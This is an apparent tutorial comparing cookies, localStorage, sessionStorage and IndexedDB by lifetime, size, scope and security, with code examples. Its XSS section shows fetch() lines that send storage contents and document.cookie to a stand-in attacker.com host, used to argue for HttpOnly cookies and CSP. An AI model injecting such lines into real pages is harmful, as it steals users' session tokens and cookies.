








# Browser Storage - Cookies, localStorage, sessionStorage, IndexedDB

The browser has four places to keep state. They look similar because they all store key value pairs. They solve different problems. Pick the wrong one and you pay with extra bytes on every request, lost data on tab close, or blocked writes in private mode.

This article is the map for where each piece of data belongs.

## The problem: HTTP has no memory

Every HTTP request is independent. The server sees `GET /cart` and has no idea who sent it or what was in the previous request. The browser needs a way to remember.

```js
// First request - server sets who you are
// Response header: Set-Cookie: session=abc123

// Second request - browser must prove it again
// Request header: Cookie: session=abc123
// Without this, server would treat you as a stranger
```

If all storage worked the same, we would send everything to the server or keep nothing. That is why the browser split storage into four tools with different lifetimes, sizes and scopes.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

## Cookies - the only storage that talks to the server

### The problem cookies solve

In 1994 Netscape needed shopping carts and logins. `localStorage` did not exist until 2009. The only way was to make the browser attach state to every request automatically. That is what a cookie does.

```
Server -> Browser: Set-Cookie: session=abc123; Path=/; HttpOnly; Secure; SameSite=Lax
Browser -> Server: Cookie: session=abc123   (on every request to /)
```

When you need the server to know who you are without JavaScript, cookies are the only option.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

### What a cookie looks like

```http
Set-Cookie: session=abc123; Path=/; Max-Age=86400; HttpOnly; Secure; SameSite=Lax
Set-Cookie: theme=dark; Path=/; Max-Age=31536000; SameSite=Lax
```

| Attribute | What it does | Interview line |
|---|---|---|
| `HttpOnly` | JavaScript cannot read `document.cookie` | stops XSS from stealing token |
| `Secure` | only over HTTPS | never leak on http |
| `SameSite=Lax` / `Strict` / `None` | when to send cross-site | `Lax` is default, `None` needs `Secure` |
| `Path` / `Domain` | scope | `Path=/` for whole site |
| `Max-Age` / `Expires` | lifetime | session cookie if absent, persistent if set |
| `__Host-` / `__Secure-` prefix | extra lock | `__Host-` needs Secure + Path=/ + no Domain |

### Size and limits

*   About **4 KB per cookie**, about **150 to 180 cookies per domain**. Total jar about 300KB to 400KB. This is tiny. Do not put JSON or images in cookies.
*   Every cookie is sent on **every request** to its scope. 400KB jar on a page with 30 assets can be megabytes of overhead. That is why you keep cookies small.

```js
// Reading cookies - only those without HttpOnly, and only string parsing
document.cookie
// "theme=dark; session=abc123"  -- you parse it yourself, no JSON, no API

// Setting a cookie from JS (only if not HttpOnly)
document.cookie = "theme=dark; Path=/; Max-Age=31536000; SameSite=Lax"
```

> Use cookies when the **server** must read it. Auth session, CSRF token, consent flag. Do not use cookies for large client-only data.

## Web Storage - the pair that stays on the client

W3C Web Storage gives two sync, string-only, per-origin stores that never travel to the server. The API is the same. The lifetime differs.

```js
// Same API, different lifetime
localStorage.setItem("theme", "dark")
sessionStorage.setItem("wizardStep", "2")

localStorage.getItem("theme")      // "dark" even next week
sessionStorage.getItem("wizardStep") // null if you closed the tab

localStorage.removeItem("theme")
localStorage.clear()
sessionStorage.clear()
```

Both are **synchronous and block the main thread**. Both store **only strings**, so you `JSON.stringify` objects. Both are **5 MB to 10 MB per origin** depending on browser. Both are **origin scoped**, `https://app.example.com` cannot read `https://other.example.com`.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

### localStorage - survives tab close

#### The problem it solves

You want a preference to survive refresh and tab close but you do not want to send it to the server on every request. Theme, language, draft post.

```js
// Remember theme across sessions, no server cost
function saveTheme(theme) {
  localStorage.setItem("theme", theme)
}
function loadTheme() {
  return localStorage.getItem("theme") ?? "light"
}

// Object needs serialization
function saveCart(cart) {
  localStorage.setItem("cart", JSON.stringify(cart))
}
function loadCart() {
  try { return JSON.parse(localStorage.getItem("cart") ?? "[]") } catch { return [] }
}
```

Expiry does not exist natively. You build it.

```js
function setWithExpiry(key, value, ttlMs) {
  const item = { value, exp: Date.now() + ttlMs }
  localStorage.setItem(key, JSON.stringify(item))
}
function getWithExpiry(key) {
  const raw = localStorage.getItem(key)
  if (!raw) return null
  const { value, exp } = JSON.parse(raw)
  if (Date.now() > exp) { localStorage.removeItem(key); return null }
  return value
}
setWithExpiry("token", "abc", 1000 * 60 * 15) // 15 min
```

### sessionStorage - dies with the tab

#### The problem it solves

You want state that is **per tab and per navigation**, not global. A multi-step wizard where two tabs have different steps, or a form you do not want to leak to another tab.

```js
// Wizard - each tab independent
sessionStorage.setItem("checkoutStep", "2")

// Opening same URL in a new tab starts fresh
// Tab A: sessionStorage.getItem("checkoutStep") -> "2"
// Tab B: sessionStorage.getItem("checkoutStep") -> null
```

*   New tab or window gets a **copy** of sessionStorage at creation, then diverges. Closing the tab **clears** it. Refresh keeps it.
*   `storage` event does **not** fire for sessionStorage across tabs, because tabs do not share it.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

> Use `localStorage` for **persistent client-only** prefs. Use `sessionStorage` for **per-tab ephemeral** flow state.

## IndexedDB - the browser database (not in depth)

IndexedDB is the browser's built-in NoSQL database. It stores structured objects, is async (does not block the main thread), holds far more than 5-10 MB, and lets you query by field through indexes. Apps like Google Docs and Figma use it for offline mode.

It is there when you need it, but for most interview answers the decision stays simple: small client preferences go in Web Storage, anything large, structured or offline goes in IndexedDB. The API is verbose (events and transactions), so libraries like `idb` or `Dexie.js` wrap it in promises. We do not go deeper here.

## The full comparison

|  | Cookie | localStorage | sessionStorage | IndexedDB |
|---|---|---|---|---|
| **Sent to server** | yes, on every request | no | no | no |
| **Size** | ~4KB per cookie, ~150 per domain | 5-10 MB per origin | 5-10 MB per origin | large, % of disk, may evict |
| **Lifetime** | session or `Max-Age` / `Expires` | until `clear()` or user clears | until tab closed | until deleted or evicted |
| **Scope** | origin + path + domain | origin, shared across tabs | origin, **per tab** | origin |
| **API** | `document.cookie` string, `Set-Cookie` header | sync `getItem` / `setItem` | sync `getItem` / `setItem` | async transaction + `onsuccess` |
| **Type** | string | string | string | structured objects |
| **Blocking** | header parsing | **blocks main thread** | **blocks main thread** | **non-blocking** |
| **JS access** | `HttpOnly` blocks JS | always JS | always JS | always JS |
| **Use for** | auth session, CSRF | theme, prefs, draft | wizard step, per-tab form | offline catalog, queue, cache |

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

## Where to put what - the decision in one picture

```js
// Auth token - server must read, protect from XSS
// Cookie: HttpOnly + Secure + SameSite=Lax + Path=/ + Max-Age=...
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=3600

// Bad - XSS can steal it
localStorage.setItem("token", jwt) // any XSS reads it

// UI prefs - client only, no server cost
localStorage.setItem("theme", "dark")

// Per-tab flow - two tabs should not share step 2 vs step 1
sessionStorage.setItem("checkoutStep", "2")

// Offline catalog - query by category without loading all
// (IndexedDB - not explored in depth here)
```

Rules to say in an interview:

*   **Auth session** goes in **httpOnly cookie**, not localStorage, because XSS in localStorage steals tokens while httpOnly cookies are not readable by JS.
*   **CSRF** then needs `SameSite=Lax` plus a CSRF token, or `SameSite=Strict` where UX allows.
*   **Do not put JWT in localStorage** if you care about XSS. If you must use localStorage for JWT, you shorten lifetime and accept the XSS tradeoff.
*   **Large or offline** goes in **IndexedDB**. `localStorage` would block the thread and cannot query.

### Security: XSS steals localStorage AND sessionStorage - httpOnly does not

Both Web Storage stores are **JS-readable by design**. If an attacker injects a `<script>` into your origin, that script runs with your origin's permissions and can read both.

```js
// What the attacker injects - one line is enough, often via
// unsanitized comment, review, or query param rendered as HTML

// Steal localStorage (persists, shared across tabs)
fetch("https://attacker.com/steal?l=" + encodeURIComponent(localStorage.getItem("token") ?? ""))

// Steal sessionStorage too - same origin, same XSS, per-tab store
fetch("https://attacker.com/steal?s=" + encodeURIComponent(sessionStorage.getItem("token") ?? ""))

// Steal non-httpOnly cookies
fetch("https://attacker.com/steal?c=" + encodeURIComponent(document.cookie))

// IndexedDB too - even though we are not exploring it here, XSS reads it the same way

// What the attacker does NOT get - httpOnly cookie is invisible to JS
// document.cookie never contains it, localStorage does not contain it
// Browser still sends it to server, but JS cannot read it
console.log(document.cookie) // "theme=dark" — no session=... if it was HttpOnly
```

Why people say localStorage is worse: not because sessionStorage is XSS-proof, it is not. While the tab is open and the injected script runs, **both leak equally**. The difference is **exposure window**: `localStorage` lives across tabs for days, `sessionStorage` dies when the tab closes and is per-tab. A second tab does not share it, so the blast radius is smaller. But in the compromised tab, both are gone.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

Defense is the same for both: do not put secrets in any JS-readable store. Put auth in `HttpOnly + Secure + SameSite=Lax` cookie, then stop XSS from running at all with **CSP** (`Content-Security-Policy: script-src 'self'`), input sanitization, and output escaping. Short-lived tokens and rotation limit what a stolen value can do, but they do not stop the steal.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

## Pitfalls you will hit

### localStorage and sessionStorage

```js
// 1. QuotaExceededError in private mode or when full
try { localStorage.setItem("k", "v") } catch (e) {
  if (e.name === "QuotaExceededError") { /* fallback to IndexedDB or evict */ }
}

// 2. Blocks main thread - never in a tight loop
for (let i = 0; i < 1000; i++) localStorage.setItem(`k${i}`, "x") // jank

// 3. storage event only fires in OTHER tabs
window.addEventListener("storage", (e) => {
  // e.key, e.oldValue, e.newValue, e.url
  // does NOT fire in the tab that wrote
  // does NOT fire for sessionStorage
})
```

### Cookies

*   `document.cookie` never shows `HttpOnly` cookies. DevTools Application tab does.
*   `SameSite=None` without `Secure` is rejected by modern browsers.
*   Third-party cookies are being phased out. Prefer first-party `__Host-` session.

### IndexedDB

*   Not explored here. Same rule as Web Storage: it is JS-readable, so no secrets in it. API lives behind `indexedDB.open()`.

<div style={{display: 'flex', justifyContent: 'center'}}>



</div>

## Try it live

Open DevTools Application tab and run these in the console. Watch where each appears.

```js
// Cookies - check Application > Cookies
document.cookie = "demo=hello; Path=/; Max-Age=60; SameSite=Lax"

// Web Storage - check Application > Local Storage / Session Storage
localStorage.setItem("demoLocal", "i survive reload")
sessionStorage.setItem("demoSession", "i die with tab")
console.log(localStorage.getItem("demoLocal"))
console.log(sessionStorage.getItem("demoSession"))

// IndexedDB - not explored in depth here, check Application > IndexedDB
// after any app like Google Docs writes to it
```

## References

- MDN. *HTTP cookies*. https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies. Lifecycle, Set-Cookie, HttpOnly, Secure, SameSite, __Host- prefix.
- MDN. *Window.localStorage*. https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage. Sync string storage, 5MB, origin scoped.
- MDN. *Window.sessionStorage*. https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage. Per-tab lifetime, copy on new tab.
- MDN. *IndexedDB API*. https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API. Object stores, transactions, indexes, async.
- MDN. *Storage quotas and eviction*. https://developer.mozilla.org/en-US/docs/Web/API/Storage_API/Storage_quotas_and_eviction_criteria. Quota, persist, eviction.
- RFC 6265. *HTTP State Management Mechanism*. https://httpwg.org/http-extensions/draft-ietf-httpbis-rfc6265bis.html. The cookie spec.
- W3C. *Web Storage*. https://www.w3.org/TR/webstorage/. The Web Storage spec for localStorage and sessionStorage.
- Jake Archibald. *IndexedDB Promised*. https://github.com/jakearchibald/idb. Promise wrapper that removes onsuccess boilerplate.
- web.dev. *Storage for the web*. https://web.dev/articles/storage-for-the-web. When to use which storage.
